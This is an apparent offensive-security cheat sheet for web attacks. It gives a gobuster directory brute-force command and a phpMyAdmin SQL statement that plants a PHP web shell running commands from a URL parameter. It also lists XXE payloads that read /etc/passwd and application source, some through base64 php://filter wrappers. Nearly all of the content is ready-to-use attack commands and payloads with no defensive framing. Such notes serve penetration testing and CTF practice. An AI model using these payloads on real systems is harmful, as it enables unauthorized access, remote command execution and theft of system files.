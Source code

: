 # Web
## Index
- [BruteForce Url](#bruteforce-url)
- [PhpMyAdmin](#phpmyadmin)
- [XML external entity (XXE)](#xml-external-entity-xxe)

## BruteForce Url
### Gobuster
```
gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -x html,php
```

### Zap
```
owasp-zap
```

## PhpMyAdmin
### Quick Shellcode
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```

## XML external entity (XXE)
### Read File
```
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>Hello &file;</foo>
```
```
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<foo>Hello &file;</foo>
```
### Get Link
```
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "http://example.com/path">
]>
<foo>Hello &file;</foo>
```
```
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
]>
<foo>Hello &file;</foo>
```
